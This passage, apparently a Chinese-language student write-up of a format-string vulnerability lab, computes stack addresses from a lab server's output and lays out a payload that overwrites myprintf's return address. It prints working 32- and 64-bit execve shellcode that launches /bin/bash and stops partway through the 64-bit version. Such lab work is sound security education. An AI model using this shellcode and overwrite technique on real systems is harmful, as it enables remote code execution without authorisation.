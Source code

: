   从 server的运行结果中可以看出buf的地址为 0xffffcc20, 即为(3)的地址。 根据运行结果，myprintf中ebp值为0xffffcb48, (2)的地址为ebp+0x4 = 0xffffcb48 + 0x4 = 0xffffcb4b 。

* Answer 2:

  (1)的地址可以通过调试输出，也可通过汇编代码输出。根据Task2，输出63个%x可以移动到(3)的位置。

### Your Task

Payload = 地址 + 格式化串 + shellcode

查看内存地址：

```
server-10.9.0.5 | The input buffer's address:    0xffffd590
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4b8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | 
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)

```



首先需要知道myprintf的返回地址。buf的地址为0xffffd590，加上12和len(fmt)为shellcode开始的位置，即0xffffd6aa。存放返回地址的地址是ebp+4即0xffffd4b8 + 0x4。

为了加快攻击速度，先向低地址处写入0xd6aa，再向高地址处写入0xffff。

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
```